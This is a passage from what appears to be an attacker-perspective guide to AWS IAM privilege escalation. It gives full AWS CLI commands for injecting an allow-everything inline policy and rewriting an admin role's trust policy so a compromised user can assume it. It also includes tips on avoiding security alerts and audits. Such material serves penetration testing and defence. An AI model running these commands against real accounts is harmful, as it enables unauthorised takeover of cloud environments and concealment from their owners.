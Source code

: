 **Strategic Considerations:** Attackers often prefer attaching granular policies rather than `AdministratorAccess` to avoid triggering security alerts. Common targets include `IAMFullAccess`, `PowerUserAccess`, or custom policies with specific dangerous permissions.

### 3\. Inline Policy Injection

The `iam:PutUserPolicy` permission enables creation of inline policies with arbitrary permissions, providing another direct escalation path.

**Technical Implementation:**

```bash
# Create inline policy with full permissions
aws iam put-user-policy \
    --user-name compromised-user \
    --policy-name EscalatedAccess \
    --policy-document '{
        "Version": "2012-10-17",
        "Statement": [
            {
                "Effect": "Allow",
                "Action": "*",
                "Resource": "*"
            }
        ]
    }'
```

**Stealth Considerations:** Inline policies are embedded directly within users, roles, or groups, making them harder to discover during security audits compared to managed policies that appear in centralized policy lists.

### 4\. AssumeRole Policy manipulation

The `iam:UpdateAssumeRolePolicy` permission allows attackers to modify role trust policies, enabling them to assume roles with elevated permissions.

**Attack Process:**

```bash
# 1. Identify high-privilege role
aws iam list-roles --query 'Roles[?contains(RoleName, `Admin`) || contains(RoleName, `Power`)].RoleName'

# 2. Update trust policy to allow assumption
aws iam update-assume-role-policy \
    --role-name HighPrivilegedRole \
    --policy-document '{
        "Version": "2012-10-17",
        "Statement": [
            {
                "Effect": "Allow",
                "Principal": {
                    "AWS": "arn:aws:iam::ACCOUNT-ID:user/compromised-user"
                },
                "Action": "sts:AssumeRole"
            }
        ]
    }'

# 3. Assume the role
aws sts assume-role \
    --role-arn arn:aws:iam::ACCOUNT-ID:role/HighPrivilegedRole \
    --role-session-name EscalationSession
```
